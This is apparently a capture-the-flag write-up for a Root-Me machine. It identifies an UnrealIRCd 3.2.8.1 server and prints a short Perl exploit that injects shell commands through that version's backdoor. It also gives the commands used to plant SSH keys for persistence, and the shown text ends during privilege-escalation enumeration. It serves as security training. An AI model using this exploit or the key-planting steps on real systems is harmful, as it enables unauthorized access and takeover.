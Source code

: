 ```irc
:relativity.localdomain 005 mk UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:relativity.localdomain 005 mk WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=Relativity CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:relativity.localdomain 005 mk EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
```


Knowing this is an Unreal3.2.8.1 IRC server, we quickly find out about an [RCE exploit](https://www.exploit-db.com/exploits/13853/):

```perl
#!/usr/bin/perl
use Socket;
use IO::Socket;

my $command = $ARGV[0];
my $payload = 'AB;'.$command;
my $host = "127.0.0.1";
my $port = "6667";

my $sockd = IO::Socket::INET->new (PeerAddr => $host, PeerPort => $port, Proto => "tcp") || die "Failed to connect to $ircserv on $ircport ...\n\n";
print "Sending: ". $payload . "\n";
print $sockd "$payload";

```

Running this exploit confirms that we can run things and create files as the `jetta` user (the one that launched ircd)
The first order of things is to make our life easier and allow us to ssh as `jetta` directly:

```bash
perl exploit.pl 'mkdir /home/jetta/.ssh'
cp /home/mauk/.ssh/authorized_keys /tmp/
perl exploit.pl 'cp /tmp/authorized_keys /home/jetta/.ssh/'
exit
```

We can now ssh to the machine directly as the `jetta` user:

```bash
ssh -i privatekey jetta@ctf01.root-me.org
```

Looking around we find that there's an `auth_server` binary in the home directory :

```bash
[jetta@Relativity auth_server]$ ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
_______________________________________
/ In America, it's not how much an item \
\ costs, it's how much you save.        /
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

[jetta@Relativity auth_server]$ sudo -l
Matching Defaults entries for jetta on this host:
```